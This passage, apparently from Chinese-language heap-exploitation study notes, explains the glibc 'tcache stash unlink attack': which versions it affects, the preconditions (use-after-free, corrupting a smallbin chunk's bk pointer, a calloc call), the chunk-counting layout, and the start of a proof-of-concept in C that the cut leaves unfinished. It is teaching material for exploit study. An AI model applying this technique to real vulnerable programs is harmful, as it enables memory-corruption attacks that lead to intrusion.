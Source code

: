 ```c
    malloc(0x450);

    // 在任意地址写一个挂入的chunk_b的地址
    printf("After attack the value of secret is 0x%lx.\n", (size_t)secret);

    assert(secret != 0);
    return 0;
}
```

# tcache stash unlink attack

## 适用版本

`glibc2.23-latest`

## glibc2.23 -latest

### 实现效果

任意地址写一个`libc`地址

### 利用方式

- 对于同一个大小的`chunk`，确保`tcache`中和`smallbin`要修改处的`chunk`之和至少为`8`个，详情看注
- 能够修改`smallbin`中的`chunk`的`bk`为要修改的值的地址减去`0x10`，具体看注
- 由于需要将`chunk`放置到`smallbin`，不能有`chunk`申请大小的限制
- 进行至少一次`calloc`

### 注：tcache和smallbin的堆风水

- `smallbin`是先进先出`FIFO`，插入到链表头，从链表尾取出，如图`chunk_1`最先插入到`smallbin`

- 先计算`tcache`中个数，然后从`smallbin`的链表尾开始数，修改第`8`个，`smallbin`中可以有任意（`>0`）个`chunk`
- 如图中应该修改`chunk5`的`bk`

![tcache_stash_unlink_calc](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202402231524182.png)

### 常用触发方式

至少需要`UAF`

### 图解

![tcache_stash_standard](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/tcache_stash_standard.png)

### POC

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <assert.h>


int main(){
    size_t secret = 0;
    printf("Before attack the value of secret is 0x%lx.\n", (unsigned long)secret);

    size_t* chunks[0x10];
    
    // 申请8个chunk，前7个待会释放到tcache
```